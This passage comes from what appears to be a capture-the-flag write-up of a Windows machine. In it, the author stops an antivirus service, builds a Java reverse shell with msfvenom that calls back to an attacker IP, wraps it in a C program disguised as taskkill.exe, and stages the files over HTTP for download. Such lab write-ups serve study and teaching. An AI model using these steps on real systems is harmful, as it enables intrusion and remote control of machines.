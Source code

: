
{% include image.html image_alt="88be39ae.png" image_src="/c702d237-95ac-42a4-8d58-03ac0833798c/88be39ae.png" %}


Next, let's stop the service with `Stop-Service`.


{% include image.html image_alt="c0bcb185.png" image_src="/c702d237-95ac-42a4-8d58-03ac0833798c/c0bcb185.png" %}


You'll notice that `avservice.exe` is no longer running. And, because I love to get me a shell, I'll attempt to spawn a reverse shell with Java no less. I'd noticed previously Java Runtime Environment (JRE) is available.

The following takes place on my attacking machine.

&hellip;

I'll use `msfvenom` to generate the reverse shell.

```
# msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.169 LPORT=1234 -f jar -o rev.jar
Payload size: 7548 bytes
Final size of jar file: 7548 bytes
Saved as: rev.jar
```

Next, I'll cross-compile a MZ executable that runs the following command `java -jar rev.jar`. Guess what's the file name of the executable? If you guess `taskkill.exe`, ten points for Gryffindor!

<div class="filename"><span>taskkill.c</span></div>

```c
#include <stdlib.h>

int main() {
  system("java -jar rev.jar");
}
```

Cross-compile with MingW.

```
# x86_64-w64-mingw32-gcc -o taskkill.exe taskkill.c
```

Finally, host all the above with Python's SimpleHTTPServer module.

```
# python -m SimpleHTTPServer 80
```

Back to the PowerShell Web Access console.

&hellip;

Download our `taskkill.exe` and `rev.jar` to `\ProgramData\unifi-video` with `Invoke-WebRequest`.


{% include image.html image_alt="6a22260e.png" image_src="/c702d237-95ac-42a4-8d58-03ac0833798c/6a22260e.png" %}
